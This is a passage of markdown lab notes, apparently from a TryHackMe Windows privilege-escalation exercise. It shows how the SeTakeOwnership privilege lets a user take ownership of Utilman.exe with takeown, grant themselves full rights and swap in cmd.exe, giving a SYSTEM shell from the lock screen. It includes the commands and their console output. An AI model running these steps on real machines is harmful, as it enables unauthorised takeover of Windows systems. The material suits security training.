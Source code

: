 ![](../../attachment/2752209b7b4f2e9663a2e34964d66587.png)

### SeTakeOwnership

Can take ownership of anything, thus we can use the famous **sethc** and **utilman** trick

> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges
> 
> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md

|Privilege|Impact|Tool|Execution path|Remarks|
|---|---|---|---|---|
|`SeTakeOwnership`|_**Admin**_|_**Built-in commands**_|1. `takeown.exe /f "%windir%\system32"`  <br>2. `icalcs.exe "%windir%\system32" /grant "%username%":F`  <br>3. Rename cmd.exe to utilman.exe  <br>4. Lock the console and press Win+U|Attack may be detected by some AV software.  <br>  <br>Alternative method relies on replacing service binaries stored in "Program Files" using the same privilege.|

![](../../attachment/0930e9726821988a15da1b447b45373f.png)

```bash
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
PS C:\Windows\system32>
```

Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.

```bash
PS C:\Windows\system32> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WPRIVESC2\THMTakeOwnership".
```
